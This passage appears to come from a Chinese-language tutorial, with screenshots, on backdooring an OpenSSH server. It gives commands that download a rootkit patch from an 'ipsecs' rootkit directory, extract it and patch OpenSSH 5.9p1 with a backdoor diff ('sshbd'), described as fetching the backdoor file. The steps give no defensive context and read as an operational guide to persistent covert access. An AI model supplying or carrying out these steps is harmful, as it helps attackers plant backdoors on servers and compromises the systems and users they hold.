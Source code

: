 ![image-20230822102416622](assets/image-20230822102416622.png)

### 2.2.2. 下载替换包和后门文件

这里可以手动下载也可以在线下载，如果在线下载出现报错，那就手动下载后再上传。

```
wget http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
wget https://mirror.aarnet.edu.au/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
```

![image-20230822102545894](assets/image-20230822102545894.png)

#### 2.2.2.1. 解压包

```
tar -xzvf openssh-5.9p1.tar.gz 
tar -xzvf 0x06-openssh-5.9p1.patch.tar.gz
```

![image-20230822102617705](assets/image-20230822102617705.png)

### 2.2.3. 安装openssh

这里如果出现密钥pahch，那就使用yum安装一下。

```
cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
cd openssh-5.9p1 && patch < sshbd5.9p1.diff
```

![image-20230822102812839](assets/image-20230822102812839.png)
